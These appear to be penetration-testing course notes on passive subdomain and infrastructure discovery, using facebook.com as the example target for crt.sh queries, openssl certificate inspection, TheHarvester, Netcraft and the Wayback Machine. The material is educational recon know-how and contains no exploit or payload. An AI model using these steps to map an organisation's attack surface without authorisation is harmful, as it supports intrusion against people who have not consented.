VirusTotal maintains its DNS replication service, which is developed by preserving DNS resolutions made when users visit URLs given by them. To receive information about a domain, type the domain name into the search bar and click on the "Relations" tab.

**Certificates**

Another interesting source of information we can use to extract subdomains is SSL/TLS certificates. The main reason is Certificate Transparency (CT), a project that requires every SSL/TLS certificate issued by a Certificate Authority (CA) to be published in a publicly accessible log.

We will learn how to examine CT logs to discover additional domain names and subdomains for a target organization using two primary resources:

- https://censys.io

- https://crt.sh

```sh
woadey@htb[/htb]$ export TARGET="facebook.com"
woadey@htb[/htb]$ curl -s "https://crt.sh/?q=${TARGET}&output=json" | jq -r '.[] | "\(.name_value)\n\(.common_name)"' | sort -u > "${TARGET}_crt.sh.txt"
woadey@htb[/htb]$ head -n20 facebook.com_crt.sh.txt

*.adtools.facebook.com
*.ak.facebook.com
*.ak.fbcdn.net
*.alpha.facebook.com
*.assistant.facebook.com
*.beta.facebook.com
*.channel.facebook.com
*.cinyour.facebook.com
*.cinyourrc.facebook.com
*.connect.facebook.com
*.cstools.facebook.com
*.ctscan.facebook.com
*.dev.facebook.com
*.dns.facebook.com
*.extern.facebook.com
*.extools.facebook.com
*.f--facebook.com
*.facebook.com
*.facebookcorewwwi.onion
*.facebookmail.com
```

```sh
woadey@htb[/htb]$ export TARGET="facebook.com"
woadey@htb[/htb]$ export PORT="443"
woadey@htb[/htb]$ openssl s_client -ign_eof 2>/dev/null <<<$'HEAD / HTTP/1.0\r\n\r' -connect "${TARGET}:${PORT}" | openssl x509 -noout -text -in - | grep 'DNS' | sed -e 's|DNS:|\n|g' -e 's|^\*.*||g' | tr -d ',' | sort -u

*.facebook.com
*.facebook.net
*.fbcdn.net
*.fbsbx.com
*.m.facebook.com
*.messenger.com
*.xx.fbcdn.net
*.xy.fbcdn.net
*.xz.fbcdn.net
facebook.com
messenger.com
```


**Automating Passive Subdomain Enumeration**

**TheHarvester** is a simple-to-use yet powerful and effective tool for early-stage penetration testing and red team engagements. We can use it to gather information to help identify a company's attack surface. The tool collects emails, names, subdomains, IP addresses, and URLs from various public data sources for passive information gathering.

### Passive Infrastructure Identification

**[Netcraft](https://sitereport.netcraft.com)**

Netcraft can offer us information about the servers without even interacting with them, and this is something valuable from a passive information gathering point of view.

**[Wayback Machine](http://web.archive.org/)**

The Internet Archive is an American digital library that provides free public access to digitalized materials, including websites, collected automatically via its web crawlers.